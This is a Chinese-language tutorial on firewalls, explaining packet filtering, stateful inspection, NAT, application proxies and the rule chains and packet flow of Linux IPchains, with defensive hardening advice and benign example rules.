通过利用防火墙对内部网络的划分，可实现内部网中重点网段的隔离，限制内部网络中不同部门之间互相访问，从而保障了网内内部敏感数据的安全。另外，隐私是内部网络非常关心的问题，一个内部网络中不引人注意的细节，可能包含了有关安全的线索而引起外部攻击者的兴趣，甚至由此而暴露了内部网络的某些安全漏洞。使用防火墙就可以隐藏那些内部细节，如 Finger、DNS 等服务。Finger 显示了主机的所有用户的用户名、真名、最后登录时间和使用 Shell 类型等，但是 Finger 显示的信息非常容易被攻击者所获悉。攻击者可以知道一个系统使用的频繁程度，这个系统是否有用户在线上网，这个系统是否存在被攻击时引起注意等等。防火墙同样可以阻塞有关内部网络的 DNS 信息，这样，一台主机的域名和 IP 地址就不会被外界所了解。

##### 3.2 防火墙的主要类型

###### 1. 网络级防火墙

网络级防火墙是基于源地址和目的地址、应用或协议以及每个 IP 包的端口做出是否允许通过判断的防火墙。路由器是传统的网络级防火墙，大多数的路由器都是通过这些信息来决定是否将所有收到的包转发，但是它不能判断出一个 IP 包来自何方、去向何方。包过滤防火墙检查每一条规则直至发现包中的信息与某规则相符。如果没有一条规则能符合，防火墙就会使用默认规则。一般情况下，默认规则就是要求防火墙丢弃该包。其次，通过定义基于 TCP 或 UDP 数据包的端口号，防火墙能判断是否允许建立特定的连接，如 Telnet、FTP 连接。

###### 2. 应用级网关

应用级网关能够检查进出的数据包，通过网关复制传递数据，防止在受信任服务器和客户机与不受信任的主机间直接建立联系。应用级网关能够理解应用级上的协议，能够做较为复杂的访问控制，并做精细的注册。但每一种协议需要相应的代理软件，使用时工作量大，效率不如网络级防火墙。

应用级网关有较好的访问控制，是目前最安全的防火墙技术，但是实现起来比较困难，而且通常对用户缺乏透明。另外，用户在受信任的网络上通过防火墙访问 Internet 或 Intranet 时，经常会发现存在延迟，并且必须进行多次登录才能访问 Internet 或 Intranet，未免有些美中不足。

###### 3. 电路级网关

电路级网关用来监控受信任的客户或服务器与不受信任的主机间的 TCP 握手信息，并以此决定该会话（Session）是否合法。电路级网关是在 OSI 模型中的会话层上进行数据包的过滤，包过滤防火墙则是在网络层过滤。电路级网关不是以一个独立产品存在，而是与其他的应用级网关结合在一起。另外，电路级网关还提供一个重要的安全功能——代理服务器（Proxy Server）。代理服务器也是一种类型的防火墙，在上面运行一个叫做“地址转移”的进程，将所有内部的 IP 地址映射到一个“安全”的、有防火墙使用的 IP 地址上。当然，作为电路级网关也存在缺陷，由于该网关是在会话层工作，所以也就无法检查应用层的数据包了。

##### 3.3 包过滤

包过滤是最原始的防火墙。第一个要使用 TCP/IP 安全的尝试是基于这样一个想法的——一个路由器能很容易地检查 TCP/IP 包的头，并简单地放弃那些与你接受的规范相冲突的包。

有两种基本类型的包过滤功能：

- 1. 标准的或者无状态的包过滤功能；
- 2. 有状态检查的包过滤器。

###### 1. 无状态包过滤器是如何工作的

包过滤器是那些边界路由器，它们根据每个包头内部的信息来决定是否要将包继续传输，以此来增强安全性。理论上，包过滤器可以被配置为根据协议报头的任何部分进行判断，但是大多数的过滤器被配置为只过滤最有用的数据域，如：

- 协议类型；
- IP 地址；
- TCP/UDP 端口；
- 分段；
- 源路由信息。

####### （1）协议过滤功能

协议过滤功能根据 IP 协议域的内容过滤包。协议域可以用来区别不同的服务类型，如 UDP、TCP、ICMP 和 IGMP。

####### （2）IP 地址过滤功能

IP 地址过滤功能可以根据 IP 地址限制与指定主机和网络之间的连接。大多数过滤器既可以允许你拒绝除一列列表中指定的主机和网络外的所有主机和网络的访问，也可以允许你接受除一个列表中指定的主机和网络外的所有主机和网络的访问。

指定某些拒绝访问的主机几乎是没有价值的，然而，指定某些接受访问的主机地址提供了特别强的安全保证，这是无状态包过滤器所能提供的最强的安全形式。通过拒绝在一个已知 IP 地址列表中指定的主机和网络外的所有主机和网络的访问，可以保证你的路由器只能由那些你知道的机器或网络的 IP 地址抵达。这个列表可以是你组织内的其他网、你客户的网络或那些在家里工作的用户的网络。通过拒绝其他所有 IP 地址的访问，几乎可以使黑客不能攻击到你的网络。要闯入你的网络，黑客必须首先进入可以接受的 IP 地址列表。

过滤器只根据 IP 地址域的内容限制那些地址，而它可能与实际的源主机不同。黑客要伪造包的 IP 地址域很容易，如果他们知道一个过滤器可以通过的地址，也就可以让包通过过滤器。在包不可以往返的情况下，如在服务拒绝攻击中，或者协议的往返地址包含在包的有效负荷和包的报头中的情况下（如在 FTP 中），该方法非常有用。

####### （3）TCP/UDP 端口

TCP/UDP 端口信息是过滤器最常基于的信息，这个数据域大多数情况下是指定这个包是干什么的。因为 TCP 或 UDP 端口号通常表明高层协议，所以端口过滤通常指的是协议过滤。图 2 表明了一个无状态包过滤器是如何根据 TCP 或 UDP 端口号而区别对待的。



可以根据 TCP 或 UDP 端口域进行过滤的一般协议包括：

- Daytime
- DNS
- Echo
- Quote
- FTP
- POP
- Telnet
- SMTP
- NetBIOS
- HTTP
- Gopher
- Whois
- SNMP
- NNTP
- Session
- IMAP
- NFS
- RSH

通过使用 IP 地址，大多数的包过滤器允许接受除一个拒绝列表外的所有协议，也允许拒绝除一个接受列表外的所有协议。拒绝除一个接受列表外的所有协议这种方法更安全些。与 IP 地址过滤不同的是，只拒绝某些指定的端口还是有用的，因为大多数的黑客行为只针对几个特殊的协议。要拒绝的最重要的协议是：

- Telnet——如果让一个主机的这个端口大开着，会使黑客打开一个带有大量可访问资源的命令行提示。
- NetBIOS 会话——如果 Windows 或 SMB 服务器的这个端口对因特网打开着，会使黑客连上文件服务器，就好像他们是本地用户一样。
- POP——应该为那些需要检查邮件的远程用户建立一个 VPN 连接，因为 POP 是使用明文口令进行访问的，这样可以使网络外的黑客得到用户的口令。
- NFS——同 Windows 客户不要使用 NetBIOS 打开着的原因一样，UNIX 用户也不要使 NFS 端口打开着。
- X Windows——运行 X 客户软件（X 环境中的“客户”和“服务器”与它们的一般意思正好相反）将使服务器很容易受到攻击。因为为黑客提供了高级的控制功能，所以这些端口特别容易受到攻击。

####### （4）基于其他信息的过滤功能

除了标准的数据域外，报头中包含的其他信息可以用来判断是否让一个包通过。

源路由和分段是 IP 协议支持的两个技术，它们被黑客频繁地利用。大多数包过滤器可以简单地放弃那些源路由或分段的包。

- 1. 源路由
- 2. 分段

源路由是定义在 IP 连接中的两个主机间的一个包必须采用的路由路径的过程。源路由最初被用在网络调试和测试上，但是现在被黑客频繁地使用，因为黑客可以在源域中放上任何地址，并且通过源路由路径中指定他的机器来保证包可以返回到他的机器。除非在网络中使用源路由，否则把过滤器配置为放弃任何源路由包。没有任何协议或 ISP 需要使用源路由。

分段是为了支持那些与一些早期的网络帧尺寸不匹配的大 IP 包能够通过路由路径开发的。分段赋予两个主机间的路由路径上的任何路由器一种能力，使它们可以将入站 IP 包分成许多小一些的片段，并将这些小一些的包发向那些限制包尺寸的网络。接收系统只是简单地等待所有分段的到来，然后再将它们重新组合成原始的格式。

分段带来的问题来自于，大多数有用的过滤器数据、TCP 或 UDP 端口号，只在 IP 包的开始部分提供，也就是只在分段号为 0 的包中。分段号为 1 或更高的包并不能根据端口信息进行过滤，因为它们不包含任何端口信息，所以最早的过滤器简单地让后继包通过，假设第 0 个包被放弃了，后继的包也就没有价值了。

但是事情通常不是这样的。许多在内部主机上运行的有错误的 TCP/IP 版本，可能无论如何都会将包重新组合，如果第一个包到第 n 个包都包含一个有效的 TCP 包，它们将会继续并使用它。这就意味着黑客可以将他的 IP 分段号从 1 开始，并完全有效地通过防火墙。

###### 2. 状态检查包过滤器是如何工作的

标准的包过滤器有许多缺点，而这些问题都来自于简单的通信中的包过滤器不能维持足够的信息来决定是否应该放弃这个包，因为它只是一个大的通信中的一小部分。状态检查包过滤器通过记录防火墙的所有通信状态，并根据这些记录下来的状态信息来决定是否要放弃某个包，从而解决了这个问题。状态检查器过滤整个通信流，而不仅仅是包。

状态检查包过滤器通过记录过滤器网关建立对话的信息来记住网络层和对话层的连接状态，然后根据这些信息区分出哪些是有效连接请求，哪些是无效连接请求或黑客行为。

大多数无状态包过滤器简单地允许在 1024 以上的所有端口通过防火墙，因为这些端口被用来返回在防火墙内启动的套接字连接。这是相当不安全的——没有什么可以防止特洛伊木马在网络内部等待在 1024 以上的服务端口，所以无状态包过滤器不能防止这种类型的攻击。

相反，状态检查包过滤器除了那些设计允许的服务和已经在状态表中的连接外，不允许其他任何服务通过防火墙。

当一个可信任的内部主机与一个不可信任的外部主机上的一个 TCP 套接字连接时，同连接同步（SYN）包一起传输的还有在希望接受响应的套接字（IP 地址和端口）。当那个 SYN 包被路由器通过状态检查包过滤器时，过滤器将在它的状态表中建立一个包含目标套接字和响应套接字的条目，然后将包发送到不可信任的网络上。当响应返回时，过滤器简单地在它的状态表中查找包的源套接字和目标套接字，查明如果它与希望的响应匹配，就让这个包通过；如果在状态表中没有这个条目，包就被放弃了，因为它不是内部网络请求的。

当 TCP 关闭对话协商包被发送通过过滤器时，或者在一段延迟之后，这段延迟通常是几分钟，过滤器就将这个条目从状态表中删除，这就保证了放弃的连接不会在状态表中留下“漏洞”。

状态检查包过滤器是使用规则（通常也称为策略）进行编辑的，这些规则改变过滤器的基本行为。策略通常包括一般被放弃的包的规则，从不被放弃的包的规则，允许外部与内部主机连接的服务规则等等。在一个多功能防火墙上，策略还控制着网络地址转换功能和代理功能，并一般将 IP 地址、网络和端口归纳为对象、域和服务。

因为状态检查包过滤器可以过滤所有无状态包过滤器能够过滤的相同信息，加上是从防火墙那一边启动连接的分离部分和其他更复杂的信息，因此，状态检查包过滤器被认为更安全些。

###### 3. 包过滤存在的安全问题

TCP 只能在第 0 个分段中被过滤。黑客利用这一点，让数据通过包过滤器到达网络中指定的计算机。通过传输那些分段号被设置为 1 的包，而这个分段却包括整个 IP 包，过滤器将忽略这个 TCP 包中的有效负荷而让它通过并到达网络内部。

许多包过滤器允许 1024 以上的端口通过。无状态包过滤器和 ISP 提供的包过滤服务通常都打开 1024 以上的端口，这样就可以建立返回主机的套接字连接了，这也就意味着用 1024 以上的 TCP 端口的任何协议都不受包过滤器保护。

特洛伊木马可以使用 NAT 使包过滤器失效。如果一台主机上设置了网络转换程序，那么它就可以被用来执行端口和地址转换，它可以改变一个在高的、未过滤端口上的协议为一个过滤端口上的协议，然后让它到达内部服务器。特洛伊木马执行的正是这样一种协议转换功能，目的就是为了使黑客能直接访问内部网络。

##### 3.4 网络地址转换

网络地址转换（NAT，Network Address Translation）将专用网络中的专用 IP 地址转换成在因特网上使用的全球唯一的公用 IP 地址。尽管最初 NAT 的目的是为了增加在专用网中可使用 IP 的地址数，但是它有一个隐藏的安全特性至少已经被证明是重要的：内部主机的隐藏。

通过让所有的传输看上去都是从一个 IP 地址发出的，网络地址转换有效地对网络的黑客隐藏了所有 TCP/IP 级的关于内部主机的信息。当包通过防火墙时，NAT 通过转换所有内部主机地址为防火墙地址（或防火墙响应到的一个地址）的方法隐藏了所有 IP 地址。防火墙使用一个转换表跟踪外部接口上的哪个套接字与内部接口的哪个套接字相等，然后重新传输内部主机数据的有效部分。

NAT 仅在传输层上实现。这就意味着隐藏在 TCP/IP 通信数据有效部分中的信息可以被传输到高层服务上，并且可以被用来寻找在高层通信中的缺点，或者被用来与特洛伊木马通信。

要执行网络地址转换，防火墙就必须维护一个与外部套接字匹配的内部套接字表。当一个内部客户建立了与一个外部主机的连接，防火墙将源套接字改变为一个防火墙外部套接字中的一个，并在转换表中加入一个新的项来表示实际的内部源套接字、目标套接字和匹配的防火墙套接字。

当一个外部主机向内部主机套接字发送回了数据时，防火墙执行相反的转换。如果在转换表中没有指定套接字的项，或者源 IP 地址与防火墙希望看到的地址不同，该包就被放弃。执行网络转换的防火墙至少需要一个有效的 IP 地址，而这个地址是不能被隐藏的。

###### 1. 转换模式

NAT 防火墙有四个最基本的功能，按普及程度和可用性顺序，如下定义：

- **静态转换**（Static Translation，也称为端口转发，Port Forwarding）：在这种模式中，一个指定的内部网络源（通常是一个服务器）有一个从不改变的固定的转换表。为使内部主机建立与外部主机的连接，需要使用静态 NAT。
- **动态转换**（Dynamic Translation，也称为自动模式、隐藏模式或 IP 伪装）：在这种模式中，为了隐藏内部主机的身份或扩展内部网络的地址空间，一个大的因特网客户群共享单一或一组小的因特网 IP 地址。
- **负载平衡转换**（Load Balancing Translation）：在这个模式中，一个 IP 地址和端口被转换为同等配置的多个服务器的一个集中地址，这样一个公共地址可以为许多服务器服务。
- **网络冗余转换**（Network Redundancy Translation）：在这种模式中，多个因特网连接被附加在一个 NAT 防火墙上，而这个防火墙根据负载和可用性对这些连接进行选择和使用。

###### 2. NAT 存在的安全问题

静态转换不能保护内部客户。静态转换仅仅在一对一的基础上替换端口信息。这对静态转换的主机不提供任何保护——攻击行为可以像任何有效连接一样被转换。当内部主机连接到外部时，防火墙是如何知道何时客户能完成连接呢？如果防火墙只依靠 TCP 信息，它可以检测出对话关闭的信息。但是许多协议没有一个明确的结束协定，而防火墙一般都有一个超时值。在超时发生之前，通过防火墙到源内部主机的连接仍然存在。这个连接是潜在的可被黑客利用的资源。

##### 3.5 应用级代理

###### 1. 代理如何工作的

代理是通过监听网络内部客户的服务请求，然后把这些请求发给外部网络，就好像代理服务器就是原始的用户来工作似的。当代理服务器从公共服务器那里接受到响应时，它再将响应返回给原始用户，就好像它就是原始的公共服务器一样。图 3 详细地描述了这个过程。



###### 2. 代理的安全优点

请求重新生成的过程和代理位于内部和外部网络之间的这个事实提供了许多安全优点：

- 代理隐藏了私有客户，而不让它们暴露给外界；
- 代理能阻断危险的 URL；
- 代理能在危险的内容传递给客户之前过滤它们，如病毒和特洛伊木马；
- 代理能检查返回内容的一致性；
- 代理能消除在网络之间的传输层路由的必要性；
- 代理提供了单点的访问、控制和日志记录功能；

- **1. 隐藏客户**

代理服务器的主要安全功能就是隐藏客户。同网络地址转换一样，从因特网上看代理服务器可以使整个网络看上去像一台机器，因为只有一台机器向因特网发送请求。同网络地址转换一样，代理服务器防止外部主机对内部机器的连接。在代理服务器上，不存在到客户的路由路径，因为在两个网络之间不存在传输层的路由功能。通过完全重新产生服务级请求而不是简单地改变和重新计算地址报头的方法，代理执行了隐藏客户这个功能。

- **2. 阻断 URL**

阻断 URL 使网络管理员可以根据其 URL 禁止某些 Web 站点的内容通过代理。在代理重新产生请求以前，代理简单地根据一个拒绝 Web 页的列表检查每一个对 Web 页的请求（或其他服务 URL）。如果这个 URL 被阻断了，代理将不发送请求或返回这个页。

- **3. 过滤内容**

因为代理重新传送所有协议的有效内容并且是协议专用的，所以代理服务器就可以被用来在有效数据部分中寻找可疑内容。内容过滤器也可以用来检查 Web 页中特定的字或词出现。

- **4. 一致性检查**

一致性检查指的是检查协议的内容来保证这个协议内容是有意义的。一致性检查确保特定的恶意攻击内容不会被用来发现网络上的安全弱点（防止缓冲溢出问题）。

- **5. 阻断路由**

传输层不需要路由，因为请求完全是被重新产生的，这就消除了传输层的弱点，如源路由、分段和不同的服务器拒绝攻击。通过消除路由功能，可以确保那些没有建立代理的协议不会被发送到公共网络上。

- **6. 记录日志和发出警告**

代理保证所有的内容都通过单一个点，此点就成为检查网络数据的检查点。

除了上面提到的安全方面，代理服务器也有重要的性能方面的特点：

- 代理可以缓存频繁访问的数据。这样通过消除对较慢的外部网络的冗余访问来提高执行性能。
- 代理可以平衡内部许多服务器的负载。

- **7. 代理的安全责任**

代理受下面一些安全责任的困扰：

- 代理产生单点的错误。与任何单点控制相连的就是单点错误。如果黑客可以使代理不能工作，整个组织也就与因特网切断联系了。
- 客户软件必须能与代理一起工作。对于每个要使用的代理服务都必须存在可使用代理的客户机，它们不能被配置为是在网络上透明工作的。
- 每个服务都必须有代理。不同的代理服务需要不同的支持服务的协议。
- 代理并不保护基本的操作系统。
- 缺省的配置通常是性能上的优化而不是安全上的优化。
- 代理服务器建立了一个服务瓶颈。同防火墙和路由器一样，如果网络用户数量增加时代理服务器没有正确地升级，一个连接到因特网的代理服务器就会造成一个瓶颈。

规则模式为“判定条件——执行操作”。

该防火墙判定条件可基于信源/信宿的主机名、主机 IP 地址、传输层协议及其端口号、ICMP 类别、输入、输出的物理接口、子网掩码。IPchains 在判定条件中可支持“逻辑”，使条件设立更加灵活。其判定后执行操作有六种：

- ACCEPT（接受）：允许数据包通过防火墙。
- REJECT（驳回）：丢弃数据包，并发送一个 ICMP 错误消息给该数据包的发送者。
- DENY（拒绝）：直接丢弃数据包，不向发送者提供任何错误信息。
- MASQ（伪装）：伪装（Masquerade）数据包，使其看起来就像来自本地系统一样。当 Linux 用作路由器时，这种策略尤为有用。
- REDIRECT（转发）：不管数据包的目的地是哪里，把它转发到本地系统的指定端口。
- RETURN（返回）：该策略只对用户定义规则有效，它是指直接返回调用链；如果在某种内核链上应用该策略，意味着脱离该链并用该链的默认策略取代。

除此之外，执行操作可包含用户自定义的 chains，这样可将一些重复操作归纳成组，使整套规则简洁、逻辑清晰。

#### 四、Linux 环境下的 IPchains 防火墙

在 Linux 操作系统中，IPchains 防火墙是一个嵌入内核的包过滤型防火墙。Linux IPchains 是 Linux IPv4 防火墙代码（它主要是借鉴了 BSD 中的代码）和 Ipfwadm 的改写。在 Linux IPchains 的前身 Ipfwadm 中，无法处理分片，有 32 位的计数器（至少在 Intel 中），不允许 TCP、UDP 或 ICMP 以外的协议描述，不能做大量的细节性改变，不能定义反向规则，有一些怪癖，也非常难以管理（这易导致用户级错误）。所以在 Linux 2.1.102 版内核之后，Linux IPchains 就已经取代了 Ipfwadm。

##### 4.1 IPchains 的结构与性能

（1）Linux IPchains 是内核级的包过滤机制防火墙技术。它对每一个经过防火墙的数据包进行检测，通过识别数据包包头中信源、信宿地址等有效信息，依据规则判定对该数据包的执行动作。该软件包核心设置了三套防火墙规则，这些规则通常称为 chains。这三套规则分别为：

- Input chains：所有传入的数据在接收之前都经过输入链（chains）规则检查。
- Forward chains：所有转发的数据在发送之前都经过转发链（chains）的规则检查。
- Out chains：所有传出的数据在发送之前都经过输出链（chains）的规则检查。

另外，还有用户自定义的 chains，其作用相当于对三种防火墙链的规则的扩展。

当一个数据包经网络接口进入系统，该内核首先使用 Input chains 来判定该包的命运；如匹配通过并且通过网络接口转发，则再转入 Forward chains 判定其走向；通过后，需由某接口输出时，则由 Out chains 最终来过滤数据包。

（2）用户通过防火墙规则的设立来具体操作，根据用户需要可在 chains 中添加有效规则，将通过的数据包与规则逐条比较，判定执行相应操作。

（3）IPchains 可对每条规则均设包计数器及字节计数器。当一个数据包通过防火墙，经历判定执行操作的同时，与之匹配的相应规则的包计数器加一，字节计数器累加实际的字节数。这些详细的数据保存在 /proc/net 目录下相应的文件中，以此作为原始数据，我们可得到基于 IP 地址的流量统计。

（4）IPchains 可产生详细的日志文件，以使网关只能捕捉到异常信息。该防火墙还具有判定 TOS 的能力，可通过设定 IP 报头的 TOS 位来区分不同业务，它还提供了完备的规则存取、恢复手段。

##### 4.2 IPchains 的工作流程图

本节主要是要说明一下 IPchains 到底是怎样工作的，并结合一个 IP 包到达防火墙后经过怎样的步骤最后从防火墙出来。

Linux 系统有三个标准的防火墙链和用户自定义的防火墙链，还有它的规则和目标。首先要弄清这些概念。

其实画个图就清楚了：（如图 4）

| Input | Test |
|---|---|
| Rule1: `-p ICMP -j REJECT` | Rule1: `-s 192.168.1.1` |
| Rule2: `-p TCP -j Test` | Rule2: `-d 192.168.1.1` |
| Rule3: `-p UDP -j DENY` |  |

图 4

上图就表示两条链：系统的标准链 INPUT 链和用户自定义链 Test，RuleX 就是规则。`-j` 后面是目标，或又是一条防火链。当然，系统还有 `forward` 链、`output` 链。你还可以定义自己的（`ipchains -N newname`）。

图4说明 input 链中第一条规则定义进来的协议为 ICMP 的 IP 包跳到 REJECT 目标，由于 REJECT 是系统自定义的，表示拒绝，所以符合 `-p ICMP` 的包就被丢弃。

input 第二条规则说明协议为 TCP 的包跳到 test，由于 test 是用户自定义的链，所以进来的包被送到 test 链中去决定它的命运。

弄清楚了基本的概念后，我们再来看一看：一个从 192.168.1.1 进来的 TCP 包要到 1.2.3.4 去，它是怎样走的（如图4）：当包进来后，它先被送到 Input 链与第一条规则匹配。第一条规则不符合（不是 ICMP 包），则此包进入第二条规则。第二条规则符合（是 TCP 包），则按照 `-j (jump)` 后面定义的目标跳到相应的地方。因目标又是一条链（用户自定义的），所以包被送到 test 链继续匹配 test 链中的规则。

test 链中第一条规则符合（因源地址是 192.168.1.1），但没有指定其要去的地方，所以继续匹配第二条规则。第二条规则不符合（目的不是 192.168.1.1，而是 1.2.3.4），所以包又被送到 input 链继续匹配下面的规则（因 test 链没有指明此包的命运，而 input 链又没有执行完），input 链中的第三条规则也不匹配，则决定此包最终命运的是 `ipchains -P input` 后面所定义的目标。如有 `ipchains -P input DENY` 则此包被拒绝；如是 `ipchains -P input ACCEPT` 则此包被接受等等。

因为一个包从进入一条链到出来，中间若没有任何规则指明它的命运的话，此包要走完整个链。像上面的例子一样，若 test 链中有 `Rule3: -p tcp -j DENY` 则此包被丢弃。但如没有，则最终是由 `ipchains -P input` 决定此包的命运。上面的文字说明可用图5来表示：



上面只是讨论了一个包在一条链中所经历的过程，下面我们来看看在整个 IP chains 过程中一个包是怎样进入防火墙，又是怎样出来的。

注意：一个包进入防火墙，首先一定是进入 Input 链，如有可能，最终从 output 链出去。而且当链中第一条规则没指明包的去向，它就被送到第二条规则去匹配；第二条规则没指明，则继续送到第三条规则；如有可能（都没指明包的去向），最终走完此链（`ipchains -P`）。

看图6：



- 1. **checksum**：当一个包进来时，内核首先检查它是不是被篡改。主要是检查校验码（checksum）。如果校验码不对，则此包被拒绝。
- 2. **sanity**：写在每条防火链的前面，特别是 input 链。主要是检验那些不规范的包，如果包被 sanity 拒绝，则在 syslog 文件中有记载。
- 3. **input**：包进入 input 链，按照上面所说的一条链中的包的流程来走，是被拒绝、否定，还是被接受、重定向等。
- 4. **Demasquerade**：包被接受。如果此包是由原来的包经过伪装后的包，则直接跳到 output 链。
- 5. **Routing Decision**：如果包不是以前伪装过的包，则通过路由机制判断包的目的地址是本机器的还是需要转发给其他远程机器的。
- 6. **Local Process**：如果包的目的地是本机器，则直接送到 output 链。
- 7. **lo interface**：如果包是从 local process 传来的，则它从 output 链中出来后 interface 被改为“lo”，然后再重新被送到 input 链，以接口是“lo”的身份再一次通过各个防火链（这里可看到 Demasquerade）。
- 8. **forward**：如果是需要转发的包，则进入 forward 链。forward 链对那些需要转发的包进行详细的检查，通过了再进行转发。
